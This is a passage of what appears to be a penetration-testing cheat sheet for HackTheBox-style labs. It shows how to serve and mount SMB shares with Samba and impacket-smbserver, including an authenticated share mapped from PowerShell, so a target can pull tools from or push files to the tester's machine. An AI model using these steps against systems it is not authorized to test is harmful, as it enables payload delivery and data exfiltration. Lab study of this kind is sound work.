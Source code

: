 ```bash
service smbd start
service smdb stop
service smbd restart

```

### Monitor logs for errors

```bash
tail -f /var/log/samba/log.<site-name>
```

## Impacket SMB

```bash
impacket-smbserver -ip 10.10.14.4 -smb2support bullsec /var/www/html/pub
```

Then use `\\10.10.14.4\bullsec\<file-name>` as the location to send your file from, or to have the target grab from you.

Mounting a remote share is pretty simple as well assuming you know the name of the share:

```bash
mkdir /mnt/10.10.10.123
mount -t cifs //10.10.10.123/general /mnt/10.10.10.123

```

Now we can browse the share inside our terminal.

### Impacket SMB w/ Password

```bash
# Create the SMB Share
impacket-smbserver bullShare $(pwd) -smb2support -user bullsec -password SecurePassword
```

```powershell
# Create a Credential Object
$pass = convertto-securestring 'SecurePassword' -asplain -force
$cred = new-object system.management.automation.pscredential("htb\bullsec", $pass)
```

```powershell
# Connect to the Share
New-PSDrive -Name bullsec -PSProvider FileSystem -Credential $cred -Root \\10.10.14.3\bullShare
```

```powershell
# Browse the Share
cd bullShare:
```

## certutil

